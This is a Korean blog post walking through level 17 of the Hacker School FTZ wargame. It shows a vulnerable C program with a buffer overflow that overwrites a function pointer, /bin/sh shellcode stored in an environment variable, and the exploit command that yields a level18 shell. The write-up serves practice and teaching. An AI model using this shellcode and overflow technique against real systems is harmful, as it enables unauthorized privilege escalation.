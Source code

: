 ```yaml
---
layout: post
title: "Hacker School FTZ - Level 17"
description: "Do you know how to call the function (2)?"
comments: true
categories: [FTZ]
tags: [FTZ]
---
```


<img data-action="zoom" src='{{ "assets/ftz/level17/1.jpg" | relative_url }}' alt='relative'>  

## 1) level17/king poetic 입력해 로그인  

``` c
#include <stdio.h>

void printit() {
  printf("Hello there!\n");
}

main()
{ int crap;
  void (*call)()=printit;
  char buf[20];
  fgets(buf,48,stdin);
  setreuid(3098,3098);
  call();
}
```

<img data-action="zoom" src='{{ "assets/ftz/level17/2.png" | relative_url }}' alt='relative'>  

소스코드를 보면 앞선 16번 문제처럼 풀되 shell 함수의 주소 대신 shellcode가 저장된 주소를 call 함수에 대입하면 될 것으로 예상됩니다.  

<img data-action="zoom" src='{{ "assets/ftz/level17/3.png" | relative_url }}' alt='relative'>  

스택의 구조도 16번 문제와 비슷합니다.  

## 2) 환경변수에 shellcode 저장하고 shellcode가 저장된 환경변수의 주소 얻기  

``` bash
export EGG=`python -c 'print "\x90"*15+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

cd tmp

echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); }' > getenv.c

gcc -o getenv getenv.c

./getenv
```

<img data-action="zoom" src='{{ "assets/ftz/level17/4.png" | relative_url }}' alt='relative'>  

## 3) bof 일으키기  

``` bash
(python -c 'print "A"*40+"\x8d\xfc\xff\xbf"'; cat) | ./attackme
```

<img data-action="zoom" src='{{ "assets/ftz/level17/5.png" | relative_url }}' alt='relative'>  

getenv 프로그램을 실행시켜 얻은 주소로 bof 공격을 수행하니 level18 권한으로 shell을 실행시킬 수 있었고 level18의 비밀번호를 획득할 수 있었습니다.  